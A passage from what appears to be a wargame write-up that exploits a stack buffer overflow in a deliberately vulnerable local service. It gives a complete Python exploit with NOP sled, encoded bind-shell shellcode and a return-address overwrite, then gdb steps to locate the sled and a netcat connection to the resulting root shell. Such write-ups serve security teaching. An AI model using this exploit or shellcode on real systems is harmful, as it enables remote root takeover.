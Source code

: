     ```python
    import socket
    import struct

    s = socket.socket(AF_INET, SOCK_STREAM)
    s.connect(("127.0.0.1", 2995))

    nop = "\x90"*24

    shellcode = "\xeb\x02\xeb\x05\xe8\xf9\xff\xff\xff\x5f\x81\xef\xdf\xff\xff\xff" \
    "\x57\x5e\x29\xc9\x80\xc1\xb8\x8a\x07\x2c\x41\xc0\xe0\x04\x47" \
    "\x02\x07\x2c\x41\x88\x06\x46\x47\x49\xe2\xed" \
    "DBMAFAEAIJMDFAEAFAIJOBLAGGMNIADBNCFCGGGIBDNCEDGGFDIJOBGKB" \
    "AFBFAIJOBLAGGMNIAEAIJEECEAEEDEDLAGGMNIAIDMEAMFCFCEDLAGGMNIA" \
    "JDIJNBLADPMNIAEBIAPJADHFPGFCGIGOCPHDGIGICPCPGCGJIJODFCFDIJO" \
    "BLAALMNIA"

    padding = "a"*(532-len(nop)-len(shellcode))

    ret = "\xaa\xaa\xaa\xaa"

    s.send(nop + shellcode + padding + ret)
    ```

7. Running this script causes another segmentation fault, because our return address is obviously non-existing. So what we have to do is to find out a return address that makes sense. We start gdb again with the core dump, and we look at the registers, with `i r`. What we are interested in is the $esp register, that tells us where the stack ends.
8. Now it's a matter of patience while looking at the stack content until we find our nopsled: we go through the memory with `gdb > x/100x $esp-x`, where we increase x until we find the bunc of '90' that correspond to the nop instructions.
9. We pick an address that points somewhere in the middle of the sled, in this way we can be sure that no matter what little shifts the stack will go through during execution we will still land in the proper place and peacefully slide down to the shellcode. We can pick 0xbffffa50, substitute it as the return address in our last script and run it again.
10. Our code executed nicely, and returned. We can now run netcat and check if we got actual root shell by issuing the whoami command: `nc 127.0.0.1 5074`

I find it a bit odd that to see if this exploit works we need to login with the godmode account. Makes me wonder if there is another approach, or if the whole attack should be carried out blindly.

### [Final 01]
### [Final 02]
------








